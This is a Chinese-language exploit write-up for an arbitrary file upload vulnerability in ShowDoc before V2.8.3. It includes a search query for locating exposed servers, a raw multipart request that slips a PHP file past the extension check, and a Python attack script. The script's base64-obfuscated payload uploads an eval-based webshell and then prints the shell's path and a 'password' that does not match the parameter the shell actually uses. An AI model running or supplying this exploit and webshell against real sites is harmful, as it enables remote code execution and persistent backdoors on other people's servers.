


# ShowDoc PageController.class.php 任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

```
ShowDoc < V2.8.3
```

## 网络测绘

```
app="ShowDoc"
```

## 漏洞复现

网站首页如下


构造如下数据包上传php文件


```plain
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```





访问回显的路径




## 漏洞POC

```python
import requests
import sys
import random
import base64
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mTitle: ShowDoc 任意文件上传漏洞                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php?s=/home/page/uploadImg"
    headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
            "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTkyMTM3ODEyNjM3MTYyMzc2MjE3MzYxNwpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9ImVkaXRvcm1kLWltYWdlLWZpbGUiOyBmaWxlbmFtZT0idGVzdC48PnBocCIKQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluCgo8P3BocCBlY2hvICd0ZXN0X3Rlc3QnO0BldmFsKCRfUE9TVFt0ZXN0XSk/PgotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tOTIxMzc4MTI2MzcxNjIzNzYyMTczNjE3LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "success" in response.text and response.status_code == 200:
            webshell_url = re.findall(r'"url":"(.*?)"', response.text)[0]
            webshell_url = webshell_url.replace('\\','')
            response = requests.get(url=webshell_url, headers=headers,verify=False, timeout=5)
            if "test_test" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功上传木马 \n[o] 路径为 {}\033[0m".format(target_url, webshell_url))
                print("\033[32m[o] 密码为: peiqi \033[0m")
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        else:
            print("\033[31m[x] 上传失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```
